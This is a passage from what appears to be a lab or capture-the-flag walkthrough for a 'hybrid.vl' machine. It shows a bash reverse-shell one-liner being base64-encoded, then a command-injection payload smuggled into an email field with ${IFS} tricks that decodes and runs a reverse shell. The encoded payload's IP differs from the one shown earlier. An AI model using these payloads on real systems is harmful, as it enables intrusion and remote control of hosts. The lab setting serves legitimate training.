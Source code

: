 ![image.png](../images/hybrid%2011.png)

now let’s get a reverse shell and pass it

```bash
echo "bash -c 'bash -i >& /dev/tcp/10.10.255.102/1337 0>&1'" | base64 -w0
```

![image.png](../images/hybrid%2012.png)

Now let’s gain a reverse shell

```bash
admin&echo${IFS}YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC44LjUuMjMzLzEzMzcgMD4mMScK|base64${IFS}-d|bash&@hybrid.vl
```

![image.png](../images/hybrid%2013.png)
